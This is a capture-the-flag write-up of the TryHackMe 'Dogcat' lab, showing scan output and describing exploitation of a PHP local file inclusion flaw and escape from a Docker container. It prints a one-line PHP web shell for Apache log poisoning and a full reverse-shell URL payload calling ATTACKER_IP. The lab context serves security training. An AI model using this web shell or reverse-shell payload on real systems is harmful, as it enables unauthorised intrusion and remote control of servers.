



# TryHackMe(THM) - Dogcat - WriteUp

> Austin Lai | August 9th, 2021

---

<!-- Description -->

[Room = TryHackMe(THM) - Dogcat](https://tryhackme.com/room/dogcat)

Difficulty: **Medium**

The room is completed on May 20th, 2020

<!-- /Description -->

## Table of Contents

<!-- TOC -->

- [TryHackMe(THM) - Dogcat - WriteUp](#tryhackmethm---dogcat---writeup)
    - [Table of Contents](#table-of-contents)
    - [Task 1](#task-1)
        - [Question 1](#question-1)
        - [Question 2](#question-2)
        - [Question 3](#question-3)
        - [Question 4](#question-4)
    - [Let's Begin Here !!!](#lets-begin-here-)

<!-- /TOC -->

---

## Task 1

```text
I made a website where you can look at pictures of dogs and/or cats! Exploit a PHP application via LFI and break out of a docker container.

I made this website for viewing cat and dog images with PHP. If you're feeling down, come look at some dogs/cats! 

This machine may take a few minutes to fully start up.
```

### Question 1

_What is flag 1?_


<details><summary>Hint given by question</summary>

```text
There's more to *view* than just cats and dogs...
```

</details>

### Question 2

_What is flag 2?_

### Question 3

_What is flag 3?_

### Question 4

_What is flag 4?_

---

## Let's Begin Here !!!

Let's fire up basic enumeration.

Nmap result:

```text
# Nmap 7.80 scan initiated Tue May 19 17:37:57 2020 as: nmap --privileged --stats-every 5s -vvvvvv -Pn -p- -A -sC -O -sS -sV --version-all -T4 --min-parallelism 80 --script=vuln --append-output -oN tryhackme-DogCat 10.10.147.242
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.147.242
Host is up, received user-set (0.18s latency).
Scanned at 2020-05-19 17:38:37 Malay Peninsula Standard Time for 764s
Not shown: 65533 closed ports
Reason: 65533 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.38 ((Debian))
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
|_http-server-header: Apache/2.4.38 (Debian)
| http-sql-injection: 
|   Possible sqli for queries:
|     http://10.10.147.242:80/?view=cat%27%20OR%20sqlspider
|     http://10.10.147.242:80/?view=dog%27%20OR%20sqlspider
|     http://10.10.147.242:80/?view=cat%27%20OR%20sqlspider
|     http://10.10.147.242:80/?view=dog%27%20OR%20sqlspider
|     http://10.10.147.242:80/?view=cat%27%20OR%20sqlspider
|_    http://10.10.147.242:80/?view=dog%27%20OR%20sqlspider
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
| vulners: 
|   cpe:/a:apache:http_server:2.4.38: 
|     	CVE-2019-0211	7.2	https://vulners.com/cve/CVE-2019-0211
|     	CVE-2019-10082	6.4	https://vulners.com/cve/CVE-2019-10082
|     	CVE-2019-10097	6.0	https://vulners.com/cve/CVE-2019-10097
|     	CVE-2019-0217	6.0	https://vulners.com/cve/CVE-2019-0217
|     	CVE-2019-0215	6.0	https://vulners.com/cve/CVE-2019-0215
|     	CVE-2020-1927	5.8	https://vulners.com/cve/CVE-2020-1927
|     	CVE-2019-10098	5.8	https://vulners.com/cve/CVE-2019-10098
|     	CVE-2020-1934	5.0	https://vulners.com/cve/CVE-2020-1934
|     	CVE-2019-10081	5.0	https://vulners.com/cve/CVE-2019-10081
|     	CVE-2019-0220	5.0	https://vulners.com/cve/CVE-2019-0220
|     	CVE-2019-0196	5.0	https://vulners.com/cve/CVE-2019-0196
|     	CVE-2019-0197	4.9	https://vulners.com/cve/CVE-2019-0197
|_    	CVE-2019-10092	4.3	https://vulners.com/cve/CVE-2019-10092
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=5/19%OT=22%CT=1%CU=33836%PV=Y%DS=2%DC=T%G=Y%TM=5EC3AC1
OS:A%P=i686-pc-windows-windows)SEQ(SP=103%GCD=1%ISR=10A%TI=Z%CI=Z%TS=A)SEQ(
OS:SP=103%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)SEQ(CI=Z%II=I)OPS(O1=M508ST11NW
OS:6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST
OS:11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40
OS:%W=F507%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R
OS:=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
OS:T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%U
OS:N=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 23.614 days (since Sun Apr 26 03:06:52 2020)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3306/tcp)
HOP RTT       ADDRESS
1   200.00 ms 10.9.0.1
2   200.00 ms 10.10.147.242

Read data files from: C:\Program Files (x86)\Nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue May 19 17:51:22 2020 -- 1 IP address (1 host up) scanned in 805.00 seconds
# Nmap 7.80 scan initiated Tue May 19 17:52:11 2020 as: nmap --privileged --stats-every 5s -vvvvvv -Pn -p 80 -A -sC -O -sS -sV --version-all -T4 --min-parallelism 80 --append-output -oN tryhackme-DogCat 10.10.147.242
Nmap scan report for 10.10.147.242
Host is up, received user-set (0.21s latency).
Scanned at 2020-05-19 17:52:16 Malay Peninsula Standard Time for 21s

PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 2.6.32 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.11 (92%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.80%E=4%D=5/19%OT=80%CT=%CU=31259%PV=Y%DS=2%DC=T%G=N%TM=5EC3AC65%P=i686-pc-windows-windows)
SEQ(SP=102%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)
OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%T=3F%W=FAF0%O=M508NNSNW6%CC=Y%Q=)
T1(R=Y%DF=Y%T=3F%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=3F%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 12.540 days (since Thu May 07 04:54:51 2020)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   216.00 ms 10.9.0.1
2   216.00 ms 10.10.147.242

Read data files from: C:\Program Files (x86)\Nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue May 19 17:52:37 2020 -- 1 IP address (1 host up) scanned in 26.09 seconds
```

Gobuster result:

```
/index.php (Status: 200)
/cat.php (Status: 200)
/flag.php (Status: 200)
/cats (Status: 301)
/dogs (Status: 301)
/dog.php (Status: 200)
```

Main page:


Dog:


Cat :



We have done most of the enumeration, but nothing yield any outcome.

The dogs and cats picture are randomly given from the images folder - dogs and cats.

It got me thinking possible of LFI?

Let's try out.


Well, it give error, if you do a quick google research, you will find out this is PHP !

I have tried basic method include null bytes, it still give me error.

Hence, done some research again, looking up php lfi method, you will find something like ... [PHP Wrapper php://filter](https://highon.coffee/blog/lfi-cheat-sheet/)

Finally ...


If you decode it you will get


So, let try to get the flag shall we ? If you remember the gobuster result, there is a flag php ?


Next, let try to get our reverse shell.

Once you have your research done, RCE with PHP LFi, you will see a result talking about [poisoning apache log](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1)

In order for us to get RCE, we have to modify user-agent as below.

```php
<?php system($_GET['cmd']);?>
```

So let's test out .


Now let's get reverse shell

```
http://VICTIM_AP/?view=php://filter/resource=dog../../../../../../var/log/apache2/access.log&ext=&cmd=php+-r+%27$sock%3dfsockopen(%22ATTACKER_IP%22,8888)%3bexec(%22/bin/sh+-i+%3C%263+%3E%263+2%3E%263%22)%3b%27
```


Yeah, we success access to the system, let do basic enum and guess what we found --- our second flag !!


Let check how to PrivEsc.


Let ROOT it !


Let some the next flag.



However, seem like we can't find the last flag, do you remember the room description? This is container !

Let us enum further, is there any way to break out of the container?



Backup script:


Let modify to get reverse shell, and this time will be outside container at host level.

And finally, we get our last flag !!


<br />

---

> Do let me know any command or step can be improve or you have any question you can contact me via THM message or write down comment below or via FB


